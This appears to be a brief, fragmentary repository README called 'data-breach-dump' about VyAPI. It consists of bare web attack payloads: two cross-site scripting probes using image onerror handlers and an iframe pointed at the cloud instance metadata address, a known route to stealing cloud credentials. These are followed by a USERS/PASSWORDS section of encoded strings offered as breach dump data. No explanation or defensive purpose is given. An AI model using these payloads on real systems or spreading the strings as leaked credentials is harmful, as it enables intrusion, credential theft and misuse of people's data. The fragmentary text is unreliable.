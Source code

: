 # data-breach-dump

VYAPI

VyAPI

libregalactic data breach dump data

<img src=1 onerror=alert(0);>

<img src="test" onerror=alert(0);>

<iframe src="http://169.254.169.254/latest/meta-data/">

USERS

PASSWORDS 

jGZ/kMsxCmyNGSsJTVtCsK9sfps7dopEM/6gvOJntw

SZnRShZArZaSfMX9lsQYlt9q9HT1affsHxm0iA1b1Q

572wjVqgNsvq63B2g68qXu5pMJZVvcZJwN/AUvhY4w

F1cRb4FUaOalSckEOJ+xP8MesDfFOZd4kBVv8YMNpg==


